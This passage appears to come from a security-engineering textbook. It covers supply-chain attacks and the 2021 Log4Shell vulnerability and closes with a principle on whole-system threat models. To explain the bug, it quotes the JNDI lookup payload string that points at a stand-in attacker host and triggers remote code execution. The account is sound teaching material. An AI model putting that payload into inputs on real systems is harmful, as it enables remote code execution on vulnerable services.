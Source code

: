 The mechanism was a supply-chain attack: the trusted build artifact was malicious. The engineering response: reproducible builds (so an independent third party can verify the build artifact), Software Bills of Materials, build-system isolation, signing of intermediate build artifacts (in-toto, SLSA).

\subsection{Log4Shell (2021)}

In December 2021 a remote-code-execution vulnerability was disclosed in the popular Log4j Java logging library (CVE-2021-44228). The vulnerability arose from Log4j's interpretation of certain syntax in logged strings: a string containing \texttt{\$\{jndi:ldap://attacker.example/exploit\}} caused Log4j to perform a JNDI lookup against the attacker's server, which returned executable code, which Log4j then executed.

The vulnerability was exposed in countless services that logged user-controlled input (HTTP headers, user-agent strings, search queries). The patch arrived within days, but the breadth of affected systems and the time required to inventory dependencies meant that some systems remained vulnerable for months.

The engineering lesson: a logging library should not interpret logged strings; a feature flag enabled by default that no application needed was a vulnerability waiting to be discovered. The wider lesson is supply-chain: the entire industry's dependency on Log4j made the vulnerability's blast radius enormous.

\begin{principle}
Cryptographic primitives, secure protocols, hardened operating systems, careful code, locked-down infrastructure: any one of these can be perfect and the system can still be insecure. Security is the property of the whole system under the threat model the engineer has named, and the threat model must include the parts the engineer does not control (libraries, build systems, operators, users). The engineering discipline is to write the threat model down, to identify the weakest link, and to strengthen it before the adversary finds it.
\end{principle}

\section{Project}

